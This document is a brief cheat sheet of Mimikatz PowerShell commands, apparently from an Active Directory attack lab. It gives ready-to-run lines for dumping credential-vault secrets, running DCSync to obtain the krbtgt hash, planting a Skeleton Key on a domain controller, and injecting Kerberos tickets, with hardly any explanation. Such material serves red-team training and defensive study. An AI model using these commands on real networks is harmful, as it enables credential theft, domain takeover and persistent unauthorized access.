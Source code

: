 Dump from credential vault
```powershell
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```

Execute DCSync via Mimikatz
```powershell
# Gets the hash of krbtgt
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

Skeleton Key attack
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

Inject tickets with Mimikatz
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\test\krbtgt_tkt.kirbi"'
```
